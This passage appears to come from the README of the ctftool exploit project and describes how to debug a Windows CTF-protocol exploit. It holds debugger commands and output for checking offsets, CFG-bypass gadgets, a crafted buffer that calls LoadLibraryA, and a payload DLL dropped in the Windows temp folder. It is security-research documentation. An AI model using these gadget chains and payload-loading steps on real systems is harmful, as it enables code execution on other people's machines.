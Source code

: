 ## Debugging

Here is how I debug problems with the exploit.

```$ cdb notepad.exe```

Disable first chance AV and BPE exceptions, because there are a lot of them.

```
> sxd av
> sxd bpe
> g
```

Then do this in ctftool

```
ctf> connect
ctf> wait notepad.exe
ctf> script scripts\ctf-exploit-common-win10.ctf
```

### Things to check

* Are the offsets still correct?
```
0:000> ? msvcrt!_init_time - msvcrt
Evaluate expression: 204080 = 00000000`00031d30
0:000> ? combase!CStdProxyBuffer_CF_AddRef - combase
Evaluate expression: 2023984 = 00000000`001ee230
0:000> ? KERNEL32!LoadLibraryAStub - kernel32
Evaluate expression: 125792 = 00000000`0001eb60
0:000> ? msctf!CCompartmentEventSink::`vftable' - msctf
Evaluate expression: 991272 = 00000000`000f2028
0:000> ? MSCTF!CCompartmentEventSink::OnChange - msctf 
Evaluate expression: 798752 = 00000000`000c3020
0:000> dqs msctf!CCompartmentEventSink::`vftable' L4
00007ffd`04312028  00007ffd`04243d00 MSCTF!CCompartmentEventSink::QueryInterface
00007ffd`04312030  00007ffd`04262840 MSCTF!CCompartmentEventSink::AddRef
00007ffd`04312038  00007ffd`0425c940 MSCTF!CCompartmentEventSink::Release
00007ffd`04312040  00007ffd`042e3020 MSCTF!CCompartmentEventSink::OnChange
0:000> dqs MSCTF!CStubIEnumTfInputProcessorProfiles::_StubTbl + 0n496*8 L
00007ffd`1aee6440 MSCTF!CTipProxy::Reconvert
```

* Did the buffer get built correctly?

```
0:000> dqs kernel32 + a9008 L8
00007ffd`03df9008  00007ffd`03df9008 KERNEL32!g_Upload16BitCriticalSection+0x128
00007ffd`03df9010  00007ffd`042e3020 MSCTF!CCompartmentEventSink::OnChange
00007ffd`03df9018  00000000`00000000
00007ffd`03df9020  00000000`00000000
00007ffd`03df9028  00000000`00000000
00007ffd`03df9030  00000000`00000000
00007ffd`03df9038  00007ffd`03d6eb60 KERNEL32!LoadLibraryAStub
00007ffd`03df9040  00007ffd`03df9048 KERNEL32!g_Upload16BitCriticalSection+0x168
0:000> da kernel32 + a9008 + 8*8
00007ffd`03df9048  "..\TEMP\EXPLOIT"
```

* Are the gadgets different?

```
0:000> u MSCTF!CCompartmentEventSink::OnChange 
MSCTF!CCompartmentEventSink::OnChange:
00007ffd`042e3020 488b4130        mov     rax,qword ptr [rcx+30h]
00007ffd`042e3024 488b4938        mov     rcx,qword ptr [rcx+38h]
00007ffd`042e3028 48ff25718a0300  jmp     qword ptr [MSCTF!_guard_dispatch_icall_fptr (00007ffd`0431baa0)]
0:000> u combase!CStdProxyBuffer_CF_AddRef 
combase!CStdProxyBuffer_CF_AddRef:
00007ffd`02e1e230 488b49c8        mov     rcx,qword ptr [rcx-38h]
00007ffd`02e1e234 488b01          mov     rax,qword ptr [rcx]
00007ffd`02e1e237 488b4008        mov     rax,qword ptr [rax+8]
00007ffd`02e1e23b 48ff254e5d0700  jmp     qword ptr [combase!__guard_dispatch_icall_fptr (00007ffd`02e93f90)]
```

* Did the CFG whitelist change?

```C:\> dumpbin /headers /loadconfig```

* Is the payload DLL accessible?

```C:\> icacls %WINDIR%\temp\exploit.dll```

* Is the payload DLL working?

```C:\> rundll32 %WINDIR%\temp\exploit.dll,test```
